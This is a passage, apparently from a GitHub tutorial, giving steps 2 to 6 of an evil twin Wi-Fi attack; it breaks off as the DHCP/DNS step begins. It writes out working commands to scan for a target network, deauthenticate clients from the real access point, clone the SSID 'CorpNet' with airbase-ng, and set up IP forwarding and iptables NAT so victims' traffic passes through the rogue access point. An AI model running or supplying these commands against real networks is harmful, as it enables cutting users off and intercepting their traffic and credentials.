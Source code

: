 
#### 🔹 Step 2: Scan for Target Network

```bash
sudo airodump-ng wlan0mon
```

* Note down:

  * **SSID**
  * **BSSID (MAC)**
  * **Channel**
  * **Client MAC (optional)**

---

#### 🔹 Step 3: Deauthenticate Clients from Real AP

```bash
sudo aireplay-ng --deauth 10 -a <BSSID> -c <Client MAC> wlan0mon
```

* This forces the client to disconnect.
* You can omit `-c` to deauth all.

---

#### 🔹 Step 4: Set Up Evil Twin AP

```bash
sudo airbase-ng -e "CorpNet" -c <Channel> wlan0mon
```

* This clones the SSID on the same channel.
* A new interface like `at0` will be created.

---

#### 🔹 Step 5: Assign IP and Setup NAT

```bash
sudo ifconfig at0 up
sudo ifconfig at0 10.0.0.1 netmask 255.255.255.0

# Enable IP forwarding
echo 1 | sudo tee /proc/sys/net/ipv4/ip_forward

# NAT with iptables
sudo iptables --flush
sudo iptables --table nat --flush
sudo iptables --delete-chain
sudo iptables --table nat --delete-chain
sudo iptables -t nat -A POSTROUTING -o wlan0 -j MASQUERADE
```

---

#### 🔹 Step 6: Start DHCP/DNS Server (dnsmasq)
